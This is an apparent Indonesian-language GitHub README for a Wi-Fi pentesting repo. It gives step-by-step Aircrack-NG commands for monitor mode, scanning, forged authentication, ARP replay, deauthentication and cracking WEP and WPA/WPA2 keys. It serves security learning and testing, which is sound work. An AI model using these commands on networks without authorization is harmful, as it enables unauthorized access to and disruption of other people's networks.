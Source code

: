 # Aircrack-NG

![Aircrack-NG](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/aircrack-ng/img/aircrack-ng.jpg)

## Instalasi

Kali Linux:

1. Menggunakan packet manager (`apt`):

   ```
   sudo apt-get update
   sudo apt-get install aircrack-ng
   ```

2. Melalui compile dari source:
   
   ```
   sudo apt-get update
   sudo apt-get install build-essential autoconf automake libtool pkg-config libnl-3-dev libnl-genl-3-dev libssl-dev ethtool shtool rfkill zlib1g-dev libpcap-dev libsqlite3-dev libpcre2-dev libhwloc-dev libcmocka-dev hostapd wpasupplicant tcpdump screen iw usbutils expect
   git clone https://github.com/aircrack-ng/aircrack-ng
   cd aircrack-ng
   autoreconf -i
   ./configure --with-experimental
   make
   sudo make install
   sudo ldconfig
   ```

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```

## Penggunaan

**1. Scan Wi-Fi:**

1. Scan Semua Jaringan (Tanpa Filter):

   ```
   sudo airodump-ng [interface]
   ```
2. Filter berdasarkan Enkripsi:
   - WEP:

      ```
      sudo airodump-ng --encrypt WEP [interface]
      ```
   - WPA/WPA2-PSK

      ```
      sudo airodump-ng --encrypt WPA,WPA2 [interface]
      ```

**2. Capture Handshake/IVs:**

1. WEP:

   ```
   sudo airodump-ng --bssid [bssid] --channel [channel] --encrypt WEP --ivs --write [output] [interface]
   ```
2. WPA/WPA2-PSK:

   ```
   sudo airodump-ng --bssid [bssid] --channel [channel] --encrypt WPA,WPA2 --write [output] [interface]
   ```

**3. Jalankan Serangan:**

1. WEP:
   1. Buat autentikasi palsu ke AP target:

      ```
      sudo aireplay-ng --fakeauth 0 -a [bssid] -h [mac_interface] [interface]
      ```
   2. Menangkap dan me-replay paket ARP untuk menghasilkan traffic:

      ```
      sudo aireplay-ng --arpreplay -b [bssid] -h [mac_interface] [interface]
      ```
   3. Tunggu hingga IVs terkumpul cukup banyak.
      - Minimal sekitar 40.000 - 85.000 IVs untuk WEP 64-bit
      - Minimal sekitar 85.000 - 150.000 IVs untuk WEP 128-bit
2. WPA/WPA2-PSK:
   1. Putuskan koneksi client menggunakan Deauth Attack:

      ```
      sudo aireplay-ng --deauth [jumlah] -a [bssid] [interface]
      ```
      
      > **Catatan:**
      > - Kalau ingin deauth client tertentu gunakan opsi `-c [mac_client]` setelah opsi `-a [bssid]`.
      > - Kalau ingin deauth terus-menerus tanpa henti ganti `[jumlah]` dengan `0`.
   2. Tunggu hingga handshake tertangkap.
      - Lihat notifikasi `WPA handshake: [BSSID]` di `airodump-ng`.
        
**4. Crack Handshake/IVs:**

1. WEP:

   ```
   aircrack-ng -a 1 -b [bssid] [file_capture]
   ```
2. WPA/WPA2-PSK:

   ```
   aircrack-ng -a 2 -b [bssid] [file_capture] -w [wordlist]
   ```

## Catatan Penting

1. WEP:
   - Harus ada minimal 1 client yang terhubung ke AP untuk serangan ARP Replay berhasil.
   - Jika tidak ada client yang terhubung, serangan akan gagal karena tidak ada traffic ARP yang bisa di-capture dan di-replay.
2. WPA/WPA2-PSK:
   - Harus ada minimal 1 client yang terhubung untuk melakukan Deauth Attack.
   - Jika tidak ada client, handshake tidak bisa ditangkap karena tidak ada yang bisa di-deauth.

## Video Demonstrasi

1. WEP:  
   [https://youtu.be/L1kuud_8Nq4?si=0s5uupcoe9l8KmgP](https://youtu.be/L1kuud_8Nq4?si=0s5uupcoe9l8KmgP)
2. WPA/WPA2-PSK:  
   [https://youtu.be/ts5spqeq1Ew?si=OIiFeEqNsAOT4RZ6](https://youtu.be/ts5spqeq1Ew?si=OIiFeEqNsAOT4RZ6)
